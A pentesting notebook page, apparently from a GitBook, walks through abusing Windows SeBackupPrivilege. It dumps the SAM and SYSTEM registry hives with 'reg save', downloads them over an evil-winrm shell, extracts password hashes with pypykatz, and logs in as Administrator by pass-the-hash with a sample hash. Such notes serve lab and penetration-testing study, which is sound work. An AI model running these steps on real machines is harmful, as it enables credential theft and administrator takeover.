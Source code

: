 # whoami /priv

```powershell
> whoami /priv
```



## SeBackupPrivilege

<figure><img src="../../../../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

This privilege allows the user to read all the files in the system.

Let's create a Temp directory and move into it.

```powershell
mkdir C:\Temp
cd C:\Temp
```

Exploit this privilege to read SAM and SYSTEM file via query.

> The **`SAM` (Security Account Manager)** hive contains local user account and group membership information, including their hashed passwords.&#x20;
>
> The **`SYSTEM`** hive contains system-wide configuration settings, such as the system boot key required to decrypt the password hashes stored in SAM

We will use the reg save command to perform a command in the registry, specify the location of the hive, and save it to a file in the current directory with the appropriate name.

```powershell
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Now download the files to attacker machine

{% code title="evil-winrm shell" %}
```powershell
> download sam
> download system
```
{% endcode %}

In kali these files is unreadable, but we can extract the hive secrets from SAM and SYSTEM file using pypykatz.

> **pypykatz**
>
> Mimikatz implementation in pure Python.&#x20;
>
> [https://github.com/skelsec/pypykatz](https://github.com/skelsec/pypykatz)

```bash
pypykatz registry --sam sam system -o registry.dump
# registry: Get secrets from registry files
# --sam SAM: path to the SAM registry hive
```

Now in the file `registry.dump` we have this:

<figure><img src="../../../../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>

With hash of these account we can try to perform a PtH like this:

```bash
evil-winrm -i <IP> -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```



